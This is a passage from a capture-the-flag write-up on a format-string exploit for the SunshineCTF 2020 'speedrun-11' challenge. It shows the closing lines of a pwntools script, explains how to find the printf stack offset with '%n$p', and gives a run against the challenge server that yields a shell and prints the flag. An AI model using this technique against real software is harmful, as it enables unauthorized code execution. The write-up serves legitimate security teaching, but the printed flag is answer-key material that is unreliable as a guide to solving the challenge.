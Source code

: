 ```python  
p.sendline(payload)

null = payload.find(b'\x00')  
p.recvuntil(payload[null-3:null])

p.interactive()  
```

Format-string exploits require a stack parameter offset.  In ~50% of cases it
is 6 (x86_64 and x86), however, finding it is not difficult.  Just enter
`%n$p` where `n > 0` as the argument to the `printf` call.  When the output
matches your input then you know you've found it, e.g.:

```  
# ./chall_11  
So indeed

%6$p  
0x70243625  
```

That hex is (in little endian order) is `%6$p`.

pwntools has some pretty nice format-string support.  If you're interested in
all the ways to exploit format strings read [dead-
canary](https://github.com/datajerk/ctf-write-
ups/tree/master/redpwnctf2020/dead-canary).

The two lines before `p.interactive()` are just to make the output pretty, it
basically captures our format-string exploit output and trashes it.

See what I mean?:

```bash  
# ./exploit_11.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-11/chall_11'  
   Arch:     i386-32-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
[+] Opening connection to chal.2020.sunshinectf.org on port 30011: Done  
[*] Switching to interactive mode

$ id  
uid=1000(chall_11) gid=1000(chall_11) groups=1000(chall_11)  
$ ls -l  
total 12  
-rwxr-xr-x 1 root root     5620 Nov  7 07:49 chall_11  
-rw-r----- 1 root chall_11   32 Nov  7 08:52 flag.txt  
$ cat flag.txt  
sun{afterlife-4b74753c2b12949f}  
```

Pretty.
